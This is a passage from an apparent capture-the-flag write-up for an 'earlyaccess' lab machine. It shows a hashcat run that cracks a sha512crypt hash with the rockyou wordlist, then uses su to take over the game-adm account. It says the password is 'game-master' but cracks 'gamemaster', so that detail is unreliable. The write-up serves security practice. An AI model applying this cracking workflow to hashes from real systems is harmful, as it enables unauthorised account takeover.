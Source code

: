 After only a couple of seconds we get the password of `game-adm`:`game-master`.

#### Using hashcat

```powershell
PS> .\hashcat64.exe -m 1800 .\hashes\game-adm.hash .\wl\rockyou.txt
hashcat (v5.1.0) starting...

======================================
* Device #1: GeForce GTX 1070, 2048/8192 MB allocatable, 15MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Dictionary cache hit:
* Filename..: .\wl\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:gamemaster

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEM...RneWX/
Time.Started.....: Thu Feb 03 18:08:24 2022 (1 sec)
Time.Estimated...: Thu Feb 03 18:08:25 2022 (0 secs)
Guess.Base.......: File (.\wl\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22073 H/s (8.65ms) @ Accel:64 Loops:32 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 30720/14344385 (0.21%)
Rejected.........: 0/30720 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: 123456 -> *star*
Hardware.Mon.#1..: Temp: 56c Fan:  0% Util: 98% Core:2008MHz Mem:4104MHz Bus:16

Started: Thu Feb 03 18:07:55 2022
Stopped: Thu Feb 03 18:08:26 2022
```

We successfully crack the hash using hashcat after 27 seconds.

#### Getting shell as game-adm

Now that we have cracked the hash, we can su to `game-adm` on the host.

```bash
drew@earlyaccess:~$ su game-adm
Password: gamemaster
game-adm@earlyaccess:/home/drew$
```
